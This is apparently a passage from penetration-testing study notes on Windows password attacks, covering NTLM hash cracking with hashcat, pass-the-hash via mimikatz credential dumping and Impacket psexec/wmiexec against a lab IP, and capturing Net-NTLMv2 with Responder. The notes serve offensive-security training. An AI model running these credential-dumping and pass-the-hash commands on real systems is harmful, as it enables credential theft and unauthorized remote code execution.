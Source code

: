 ```
8. hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


##### Passsing NTLM
- Can pass NTLM hash if cracking not feasible
	- To leverage for code execution, associated user needs admin privs
- On Windows Vista+ *UAC remote restrictions* denies RCE if not Administrator hash
- Tools for SMB enum and management:
	- smbclient
	- CrackMapExec
- Impacket tools for SMB RCE (install impacket-scripts package)
	- psexec.py
	- wmiexec.py
- Pass the hash also works for RDP and WinRM

Steps:
1. Connect to machine 1 
2. Run mimikatz
3. Verify privs, elevate
4. Dump credentials
5. Use dumped creds to connect to remote SMB share on machine 2
6. Use impacket psexec for RCE
	- Can use wmiexec as well
	- impacket uses LM:NTLM hash format (use 0's for LM)
	- PsExec -> gives SYSTEM
	- WmiExec -> gives *User*


```
3. privilege::debug

3.1 token::elevate 

4. lsadump::sam

5. smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

6. impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

6. impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```


##### Cracking Net-NTLMv2
- Net-NTLMv2 is a network authentication method for Windows networks
	- Other option is Kerberos
- Responder is excellent tools for capturing credentials on the wire
	- Protocol capabilities:
		- NTLMv2
		- HTTP
		- FTP
		- LLMNR
		- NBT-NS
		- MDNS
- Can capture NTMv2 by forcing target machine we have access to authenticate with us 
	- Common method is to attempt access to a fake SMB share on our attack machine
